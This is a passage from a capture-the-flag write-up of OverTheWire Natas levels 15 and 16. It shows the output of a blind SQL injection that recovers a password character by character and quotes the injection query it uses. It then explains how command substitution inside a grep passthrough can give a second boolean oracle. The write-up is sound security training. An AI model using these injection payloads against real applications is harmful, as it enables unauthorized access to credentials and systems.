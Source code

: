 ```
WaI
WaIH
WaIHE
WaIHEa
WaIHEac
WaIHEacj
WaIHEacj6
WaIHEacj63
WaIHEacj63w
WaIHEacj63wn
WaIHEacj63wnN
WaIHEacj63wnNI
WaIHEacj63wnNIB
WaIHEacj63wnNIBR
WaIHEacj63wnNIBRO
WaIHEacj63wnNIBROH
WaIHEacj63wnNIBROHe
WaIHEacj63wnNIBROHeq
WaIHEacj63wnNIBROHeqi
WaIHEacj63wnNIBROHeqi3
WaIHEacj63wnNIBROHeqi3p
WaIHEacj63wnNIBROHeqi3p9
WaIHEacj63wnNIBROHeqi3p9t
WaIHEacj63wnNIBROHeqi3p9t0
WaIHEacj63wnNIBROHeqi3p9t0m
WaIHEacj63wnNIBROHeqi3p9t0m5
WaIHEacj63wnNIBROHeqi3p9t0m5n
WaIHEacj63wnNIBROHeqi3p9t0m5nh
WaIHEacj63wnNIBROHeqi3p9t0m5nhm
WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
```
Pretty cool. We could have optimised this script by searching for matching characters anywhere in the password first by constructing the query `'username' : 'natas16" and password LIKE BINARY "%' + char  + '%" -- '` and then passing the resulting filtered string to our character search, but honestly it was pretty quick regardless.

## Level 16

Level 16 looks the same as level 9 and 10, but with more input filtering.

At the moment our input is passed into a grep string like bellow

`grep -i "our input" dictionary.txt`

Our input is wrapped `""` preventing the earlier attacks. Still `$,(,),` are not filtered, so we should be able to perform command substitution.

In level 15 we used a boolean based blind injectection against SQL. This means we perform an SQL query and from the output we can determine if it was true or false. Using this boolean value we test against the each letter in the password string for possible characters and eventually determine the entire password.

This time we're performing a similar attack, posting a query to get a true or false value determined by interpreting the response, except it is against a bash passthrough. Let's break out a python script again.
